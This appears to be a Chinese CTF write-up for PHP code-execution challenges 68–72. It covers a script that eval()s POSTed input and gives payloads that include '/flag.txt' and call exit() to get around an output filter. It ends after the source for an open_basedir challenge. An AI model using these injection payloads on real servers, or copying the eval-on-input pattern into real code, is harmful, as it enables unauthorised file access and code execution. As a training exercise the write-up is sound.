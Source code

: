 

## 68-70-文件包含函数

highlight_file被ban：

```
c=include(’/flag.txt’);
c=require(’/flag.txt’);
c=require_once(’/flag.txt’);
```



## 71-exit()

```php
<?php
error_reporting(0);
ini_set('display_errors', 0);
// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
        $s = ob_get_contents();
        ob_end_clean();
        echo preg_replace("/[0-9]|[a-z]/i","?",$s);
}else{
    highlight_file(__FILE__);
}
?>
```

大致意思是：
`$s = ob_get_contents();`：命令执行完毕后获取缓冲区内容赋给$s
`ob_end_clean();`：然后清空缓冲区
`preg_replace("/[0-9]|[a-z]/i","?",$s);`：再把所有输出的字符替换为?

可以执行exit();让后面的代码不执行直接退出：

```
c=include('/flag.txt');exit(0);
```

## 72-绕过open_basedir

```php
<?php
error_reporting(0);
ini_set('display_errors', 0);
// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
        $s = ob_get_contents();
        ob_end_clean();
        echo preg_replace("/[0-9]|[a-z]/i","?",$s);
}else{
    highlight_file(__FILE__);
}

?>
```
